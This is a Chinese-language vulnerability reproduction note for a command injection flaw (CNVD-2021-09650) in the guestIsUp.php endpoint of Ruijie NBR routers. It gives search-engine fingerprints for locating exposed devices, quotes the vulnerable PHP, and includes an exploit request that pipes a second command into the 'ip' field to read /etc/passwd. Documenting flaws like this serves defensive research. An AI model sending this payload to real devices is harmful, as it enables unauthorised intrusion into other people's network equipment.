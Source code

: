 # 锐捷 NBR 路由器 guestIsUp.php 远程命令执行漏洞 CNVD-2021-09650

## 漏洞描述

锐捷NBR路由器 EWEB网管系统部分接口存在命令注入，导致远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器 EWEB网管系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="锐捷网络-EWEB网管系统"</a-checkbox></br>

<a-checkbox checked>icon_hash="-692947551"</a-checkbox></br>

## 漏洞复现



![img](../../../.vuepress/public/img/ruijie-6.png)



出现漏洞的文件在 `/guest_auth/guestIsUp.php`



```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```



这里看到通过命令拼接的方式构造命令执行，



```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```



然后访问页面 `/guest_auth/test.txt` 就可以看到命令执行的结果



![img](../../../.vuepress/public/img/ruijie-5.png)



## 